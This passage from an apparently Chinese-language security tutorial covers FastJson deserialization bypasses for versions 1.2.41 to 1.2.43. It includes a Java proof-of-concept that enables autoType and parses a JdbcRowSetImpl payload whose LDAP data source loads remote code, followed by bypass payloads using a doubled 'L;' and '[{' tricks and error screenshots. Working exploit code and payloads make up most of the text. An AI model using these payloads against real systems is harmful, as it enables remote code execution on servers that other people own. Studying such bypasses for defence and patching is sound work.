 ```plain
package EXPFastJson;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.ParserConfig;

public class FastJsonBypass1247 {
    public static void main(String[] args){
        //第一步：反序列化一个Class类，值为恶意类
        //用之前payload从缓存中继续加载
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);

//        String s="{{\"@type\":\"java.lang.Class\",\"val\":\"com.sun.rowset.JdbcRowSetImpl\"},{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"DataSourceName\":\"ldap://127.0.0.1:8085/hFtNevZa\",\"AutoCommit\":false}}";
        String s="{\"@type\":\"Lcom.sun.rowset.JdbcRowSetImpl;\",\"DataSourceName\":\"ldap://127.0.0.1:8085/hFtNevZa\",\"AutoCommit\":1}";
        JSON.parseObject(s);
    }
}
```

## FastJson1.2.42绕过：

1.2.42相较于之前的版本，关键是在`ParserConfig.java`中修改了1.2.41前的代码

*   对于传入的类名，删除开头`L`和结尾的`;`

但是可以发现在以上的处理中，只删除了一次开头的`L`和结尾的`;`，双写可以绕过。

```plain
{"@type":"LLcom.sun.rowset.JdbcRowSetImpl;;","DataSourceName":"ldap://127.0.0.1:8085/hFtNevZa","AutoCommit":1}
```

## FastJson1.4.43绕过：

1.2.43版本修改了`checkAutoType()`的部分代码，对于LL等开头结尾的字符串抛出异常，这里我们就可以用`[`和`{`进行绕过：

```plain
{"@type":"[com.sun.rowset.JdbcRowSetImpl","DataSourceName":"ldap://127.0.0.1:8085/hFtNevZa","AutoCommit":1}
```

[![](assets/1701612260-f9a825ae2fde8ad08979184f7e13b35b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230723230552-6a7b137e-296a-1.png)

看到报错提示，期待出现\[，但是出现了两个逗号，所以我们在后面再加一个\[：

[![](assets/1701612260-f46a174b930e6ee20750f2026652b813.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230723230558-6e4bfa86-296a-1.png)

然后我们再按他说的在后面再加一个{：

[![](assets/1701612260-63972b7bc75c67742dc7b5101c3b58a4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230723230604-71713f28-296a-1.png)
